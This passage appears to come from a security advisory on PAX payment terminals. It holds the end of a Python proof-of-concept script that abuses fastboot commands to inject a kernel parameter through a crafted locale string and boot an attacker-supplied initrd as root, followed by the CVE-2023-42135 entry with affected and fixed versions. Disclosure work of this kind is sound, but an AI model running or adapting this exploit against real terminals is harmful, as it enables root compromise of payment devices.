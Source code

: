 ```
    check_status(b"OKAY", response)

def flash(partition_name: str) -> None:
    check_status(b"OKAY", cmd(f"flash:{partition_name}".encode()))

def upload_data(bytez: bytes) -> None:
    # yes, I know this could be done better but I'm too lazy
    with tempfile.NamedTemporaryFile() as tmp:
        tmp.write(bytez)
        tmp.flush()
        upload_image(Path(tmp.name))

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("invalid number of parameters, please provide image")
        sys.exit(1)

    initrd_image = Path(sys.argv[1])
    initrd_size = initrd_image.stat().st_size

    with open_fastboot():
        print("enabling paxassert")
        upload_data(b"yes\x00")
        check_status(cmd(b"oem paxassert"), b"OKAY")

        print("pushing pax1 partition")
        upload_data(f'LOCALE="pl-PL initrd=0x82000000,{initrd_size}"'.encode())

        print("flashing pax1")
        flash("pax1")

        print("pushing initrd")
        upload_image(initrd_image)

        check_status(b"OKAY", cmd(b"continue"))

```

CVE-2023-42135 - Local code execution as root via kernel parameter injection in fastboot
----------------------------------------------------------------------------------------

*   Product: PAX A920Pro/PAX A50/PAX A77
*   CVSS Score: CVSS 7.6 (AV:P/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H)
*   Impact: Local code execution as
    
    root
    
    `root`
*   Known vulnerable version: PayDroid 8.1.0_Sagittarius_11.1.50_20230614
*   Fix verified in: PayDroid 8.1.0_Sagittarius_V02.9.99T9_20230919
*   CERT.PL reference: [https://cert.pl/en/posts/2024/01/CVE-2023-4818/](https://cert.pl/en/posts/2024/01/CVE-2023-4818/)

